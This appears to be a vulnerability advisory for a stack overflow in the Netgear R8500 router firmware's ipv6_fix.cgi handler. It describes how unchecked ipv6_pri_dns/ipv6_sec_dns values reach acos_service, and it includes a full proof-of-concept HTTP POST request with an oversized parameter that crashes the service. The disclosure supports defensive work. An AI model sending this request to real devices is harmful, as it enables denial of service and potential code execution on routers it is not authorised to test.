




# Netgear Vulnerability

Vendor:Netgear

Product:R8500

Version:1.0.2.160

Type:Stack Overflow

Author:Jiaqian Peng

Institution:pengjiaqian@iie.ac.cn


## Vulnerability description

We found an stack overflow vulnerability in Netgear router with firmware which was released recently, allows remote attackers to crash the server.

**Stack Overflow**

In `httpd` binary:

In the router's `ipv6_fix.cgi` function, `ipv6_pri_dns、ipv6_sec_dns` is directly passed by the attacker, If this part of the data is too long, it will cause the stack overflow, so we can control the `ipv6_pri_dns、ipv6_sec_dns` to execute arbitrary code.

As you can see here, the input has not been checked. And then,call the function `acosNvramConfig_set ` to store this input.

<div  align="center"></div>

In `acos_service` binary:

Eventually, in `sub_F4F4` function. The parameter `ipv6_pri_dns、ipv6_sec_dns` is directly copy to a local variable placed on the stack, which overrides the return address of the function, causing buffer overflow.

<div  align="center"></div>


## PoC

We set `ipv6_pri_dns` as **aaaaa......** , and the `acos_service` will crash, such as:

```http
POST /ipv6_fix.cgi?id=59e2f5ef70ebf3a09c21dfe7b791c41cf87e350f9b80dca9b16bdec666af692d HTTP/1.1
Host: 192.168.1.1
Content-Length: 2703
Cache-Control: max-age=0
Authorization: Basic YWRtaW46YWRtaW4=
Origin: http://192.168.1.1
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.0.0 Safari/537.36 Edg/129.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.1.1/IPV6_fixed.htm
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: XSRF_TOKEN=1222440606
Connection: close

apply=%E5%BA%94%E7%94%A8&login_type=%E9%9D%99%E6%80%81&IPv6WanAddr1=2001&IPv6WanAddr2=0000&IPv6WanAddr3=0000&IPv6WanAddr4=0000&IPv6WanAddr5=0000&IPv6WanAddr6=0000&IPv6WanAddr7=0000&IPv6WanAddr8=0000&ProfixWanLength=24&IPv6Gateway1=2001&IPv6Gateway2=0000&IPv6Gateway3=0000&IPv6Gateway4=0000&IPv6Gateway5=0000&IPv6Gateway6=0000&IPv6Gateway7=0000&IPv6Gateway8=0001&DAddr1=2001&DAddr2=0000&DAddr3=0000&DAddr4=0000&DAddr5=0000&DAddr6=0000&DAddr7=0000&DAddr8=0002&PDAddr1=2001&PDAddr2=0000&PDAddr3=0000&PDAddr4=0000&PDAddr5=0000&PDAddr6=0000&PDAddr7=0000&PDAddr8=0003&IpAssign=auto&IPv6LanAddr1=2002&IPv6LanAddr2=0000&IPv6LanAddr3=0000&IPv6LanAddr4=0000&IPv6LanAddr5=0000&IPv6LanAddr6=0000&IPv6LanAddr7=0000&IPv6LanAddr8=0001&ProfixLanLength=24&ipv6_wan_ipaddr=2001%3A0000%3A0000%3A0000%3A0000%3A0000%3A0000%3A0000&ipv6_lan_ipaddr=2002%3A0000%3A0000%3A0000%3A0000%3A0000%3A0000%3A0001&ipv6_wan_length=24&ipv6_lan_length=24&ipv6_pri_dns=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa&ipv6_sec_dns=2001%3A0000%3A0000%3A0000%3A0000%3A0000%3A0000%3A0003&ipv6_wan_gateway=2001%3A0000%3A0000%3A0000%3A0000%3A0000%3A0000%3A0001&ipv6_enable_dhcp=&ipv6_proto=fixed
```

<div  align="center"></div>


## Result

The target process `acos_service` crashed.

<div  align="center"></div>
